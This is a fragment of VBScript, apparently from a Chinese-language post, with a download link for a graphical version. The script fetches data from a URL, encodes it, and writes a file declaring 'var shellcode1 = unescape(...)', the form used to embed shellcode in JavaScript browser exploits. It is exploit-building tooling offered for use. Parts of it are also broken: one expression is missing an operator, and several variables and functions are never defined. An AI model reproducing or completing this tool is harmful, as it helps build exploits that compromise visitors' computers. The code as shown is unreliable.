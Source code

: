 Function GetBody(url)
 On Error Resume Next
 Set Retrieval = CreateObject("Microsoft.XMLHTTP")
 With Retrieval
 .Open "Get", url, False, "", ""
 .Send
 GetBody = .ResponseBody
 End With
 Set Retrieval = Nothing
End Function

Function BytesToBstr(Body, Cset)
 Dim objstream
 Set objstream = CreateObject("adodb.stream")
 objstream.Type = 1
 objstream.Mode = 3
 objstream.Open
 objstream.Write Body
 objstream.Position = 0
 objstream.Type = 2
 objstream.Charset = Cset
 BytesToBstr = objstream.ReadText
 objstream.Close
 Set objstream = Nothing
End Function

Function URLEncoding(vstrIn)
 strReturn = ""
 For aaaa = 1 To Len(vstrIn)
 ThisChr = Mid(vStrIn,aaaa,1)
 If Abs(Asc(ThisChr)) < &HFF Then
 strReturn = strReturn & ThisChr
 Else
 innerCode = Asc(ThisChr)
 If innerCode < 0 Then
 innerCode = innerCode + &H10000
 End If
 Hight8 = (innerCode And &HFF00) &HFF
 Low8 = innerCode And &HFF
 strReturn = strReturn & "%" & Hex(Hight8) & "%" & Hex(Low8)
 End If
 Next
 URLEncoding = strReturn
End Function

set fso=CreateObject("scripting.filesystemobject")
set fileS=fso.opentextfile("a.txt",2,true)
fileS.writeline a
fileS.writeline "var shellcode1 = unescape(""" & replaceregex(code) & """);"
fileS.writeline b
files.close
set fso=Nothing

wscript.echo Chr(13)&"ok，生成a.txt"

------------------------------------丰初的图形界面的（带测试动画）-----------------------------------

![](http://pic.yupoo.com/sunlei/30046557d9e3/zlociwi3.jpg)

[下载地址](http://www.ziddu.com/downloadfile.php?uid=Zq6alZyla6qZm52ns6yZlJyiZa6WlJen5)

